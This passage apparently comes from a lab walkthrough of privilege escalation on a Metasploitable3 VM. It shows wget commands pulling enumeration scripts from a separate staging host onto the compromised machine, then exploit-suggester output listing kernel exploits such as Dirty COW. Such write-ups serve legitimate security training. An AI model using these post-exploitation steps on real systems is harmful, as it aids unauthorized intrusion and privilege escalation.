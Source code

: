 Using wget to download the files:

```
boba_fett@metasploitable3-ub1404:/var/tmp$ wget http://192.168.4.129/LinEnum.sh
wget http://192.168.4.129/LinEnum.sh
--2019-12-15 12:24:25--  http://192.168.4.129/LinEnum.sh
Connecting to 192.168.4.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 45650 (45K) [text/x-sh]
Saving to: 'LinEnum.sh'

     0K .......... .......... .......... .......... ....      100% 1.04M=0.04s

2019-12-15 12:24:25 (1.04 MB/s) - 'LinEnum.sh' saved [45650/45650]

boba_fett@metasploitable3-ub1404:/var/tmp$ wget http://192.168.4.129/lse.sh
wget http://192.168.4.129/lse.sh
--2019-12-15 12:24:58--  http://192.168.4.129/lse.sh
Connecting to 192.168.4.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 31736 (31K) [text/x-sh]
Saving to: 'lse.sh'

     0K .......... .......... ..........                      100% 20.2M=0.002s

2019-12-15 12:24:58 (20.2 MB/s) - 'lse.sh' saved [31736/31736]

boba_fett@metasploitable3-ub1404:/var/tmp$


boba_fett@metasploitable3-ub1404:~$ wget http://192.168.4.129/linux-exploit-suggester-2.pl
--2020-04-08 13:05:21--  http://192.168.4.128/linux-exploit-suggester-2.pl
Connecting to 192.168.4.128:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 24783 (24K) [text/x-perl]
Saving to: ‘linux-exploit-suggester-2.pl’

100%[===================================================================================================================>] 24,783      --.-K/s   in 0s      

2020-04-08 13:05:21 (108 MB/s) - ‘linux-exploit-suggester-2.pl’ saved [24783/24783]

boba_fett@metasploitable3-ub1404:~$
```

After running the enumeration scripts, are few things popped out for me:

##### Kernel Exploits - There were some kernel exploits available for this operating system

```
boba_fett@metasploitable3-ub1404:~$ perl linux-exploit-suggester-2.pl 

  #############################
    Linux Exploit Suggester 2
  #############################

  Local Kernel: 3.13.0
  Searching 72 exploits...

  Possible Exploits
  [1] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [2] exploit_x
      CVE-2018-14665
```